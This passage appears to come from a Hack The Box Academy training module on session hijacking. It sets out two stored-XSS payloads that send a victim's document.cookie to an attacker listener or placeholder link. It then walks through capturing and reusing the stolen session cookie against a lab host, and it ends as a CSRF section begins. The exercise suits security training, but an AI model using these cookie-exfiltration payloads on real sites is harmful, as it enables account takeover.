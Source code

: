 Payload:

Code: javascript

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

**Note**: If you're doing testing in the real world, try using something like [XSSHunter (now deprecated)](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.

A sample HTTPS>HTTPS payload example can be found below:

Code: javascript

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

**Simulate the victim**

Open a `New Private Window`, navigate to `http://xss.htb.net` and log in to the application using the credentials below:

- Email: smallfrog576
- Password: guitars

This account will play the role of the victim!

Now, navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`. This is the attacker-crafted public profile that hosts our cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

You should now see the below in your attacking machine.

![Terminal output showing PHP server started on 10.10.14.36:8000, with a GET request to /log.php containing an auth-session parameter.](https://academy.hackthebox.com/storage/modules/153/52.png)

Terminate the PHP server with Ctrl+c, and the victim's cookie will reside inside `cookieLog.txt`

![Terminal output showing contents of cookieLog.txt with an auth-session value.](https://academy.hackthebox.com/storage/modules/153/53.png)

You can now use this stolen cookie to hijack the victim's session!


# Cross-Site Request Forgery (POST-based)

---

The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`csrf.htb.net`) to access the application.

